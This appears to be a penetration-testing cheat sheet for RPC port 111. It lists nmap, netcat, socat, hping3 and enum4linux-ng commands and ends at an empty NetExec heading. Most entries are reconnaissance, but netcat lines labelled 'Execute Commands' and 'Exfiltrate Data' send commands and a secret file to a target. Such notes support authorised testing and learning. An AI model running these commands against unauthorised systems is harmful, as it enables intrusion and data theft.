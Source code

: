 #### \[\[Nmap]]

*   **Basic Nmap Scan:** Scan target on specified port to verify if service is on.

    ```bash
    nmap <target_ip> -p 111
    ```

#### \[\[NetCat]]

*   **Netcat TCP Connect:** Simple test to verify port service is running and responding.

    ```bash
    nc <target_ip> 111
    ```
*   **Netcat UDP Connect:** Simple test to verify port service is running and responding.

    ```bash
    nc <target_ip> 111 -u
    ```
*   **Execute Commands:** Execute commands on target.

    ```bash
    echo "<command>" | nc <target_ip> 111
    ```
*   **Exfiltrate Data:** Exfiltrate data over specified port.

    ```bash
    nc <target_ip> 111 < secret_data.txt
    ```

#### \[\[SoCat Cheat Sheet]]

*   **Socat TCP Connect:** Simple test to verify port service is running and responding.

    ```bash
    socat - TCP:<target_ip>:111
    ```

#### \[\[HPing3 Cheat Sheet]]

*   **Send UDP Packet:** Send a single UDP packet to the service.

    ```bash
    hping3 -2 <target_ip> -p 111 -c 1
    ```

#### \[\[Enum4Linux]]

*   **Enumerate via username/password:** Enumerating information from Windows and Samba systems.

    ```bash
    ./enum4linux-ng.py -A -u <username> -p <password> -d <domain_controller_ip> <target_ip>
    ```

#### \[\[NetExec]]
